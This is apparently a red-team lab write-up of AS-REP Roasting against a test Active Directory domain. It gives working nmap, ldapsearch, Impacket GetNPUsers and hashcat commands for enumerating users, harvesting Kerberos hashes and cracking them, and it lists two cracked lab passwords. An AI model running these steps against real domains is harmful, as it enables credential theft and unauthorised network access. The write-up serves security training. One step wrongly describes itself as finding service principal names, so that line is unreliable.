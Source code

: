 # 🧨 AS-REP Roasting Attack Walkthrough

## 🧠 Overview

AS-REP Roasting is a technique that allows an attacker to retrieve encrypted authentication responses from Active Directory without valid credentials, but only if the target accounts have “Do not require Kerberos pre-authentication” enabled. The attacker can then attempt to crack these responses offline to recover plaintext passwords.
- **Tactic:** Credential Access
- **Technique:** [AS-REP Roasting (T1558.004)](https://attack.mitre.org/techniques/T1558/004/)
- **Objective:** Obtain plaintext passwords of service accounts with weak hashes to gain initial access.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Target Environment:** Windows Active Directory
  - 1x Domain Controller (Windows Server 2019)
  - 2x Windows 10 clients
- **SIEM:** Splunk Enterprise logging DC and endpoint activity

---

## 🚩 Red Team Steps

### 1. Discover Live Hosts on the subnet with Nmap
Identifies which machines are active and available for further reconnaissance.
```
nmap -sn 10.80.80.0/24 
```
![NMAP_SCAN](../assets/AS-REP/RED/1_NMAP_SCAN.png)
### 2. Scan the machines of interest for exposed services and ports
Reveals the Domain Controller and attack surface for the machine.
```
nmap -sV -O 10.80.80.2
```
![NMAP_DOMAIN](../assets/AS-REP/RED/2_NMAP_DOMAIN.png)
### 3. Enumerate Domain Users
The nmap scan would reveal services open to exploitation. In my case, the LDAP server was exposed. I then used ldapsearch to return every entry in the directory, formatted the list and saved it to a txt file.
```
ldapsearch -x -H ldap://10.80.80.2 -b "DC=ad,DC=lab" "(objectClass=user" | grep "sAMAccountName" | sort | cut -d " " -f2 > users.txt
```
![LDAP_SEARCH](../assets/AS-REP/RED/3_LDAP_SEARCH.png)
### 4. Use Impacket's getNPUsers to identify Users with Service Principal Names
This step identifies users who have pre-authentication disabled. These accounts are vulnerable to AS-REP Roasting. The tool will request TGTs and output hashes that can be cracked offline.
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py ad.lab/ -usersfile users.txt -dc-ip 10.80.80.2
```
![GET_NPUSERS](../assets/AS-REP/RED/4_getNPUsers.png)
### 5. Crack the hash using Hashcat and a password list
After retrieving AS-REP hashes, I used Hashcat to crack them offline. These hashes use RC4-HMAC encryption and are compatible with mode 18200 in Hashcat.
```
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
![HASHCAT](../assets/AS-REP/RED/5_HASHCAT.png)

I now have access to two low level accounts:
audry.florencia 159357
mag.auria charles

---

## 🏁 Gaining Initial Access

This phase of the attack demonstrates how an attacker with no existing credentials can gain a foothold in an Active Directory environment by taking advantage of accounts that have Kerberos pre-authentication disabled.

Using tools like ldapsearch, Impacket’s GetNPUsers.py, and Hashcat, I was able to enumerate domain users, identify vulnerable accounts, and crack a user’s password offline. With valid domain credentials, the attacker now has an initial presence inside the network.

This access provides a foundation for post-exploitation steps such as privilege escalation, lateral movement, and further enumeration within the environment.

---




















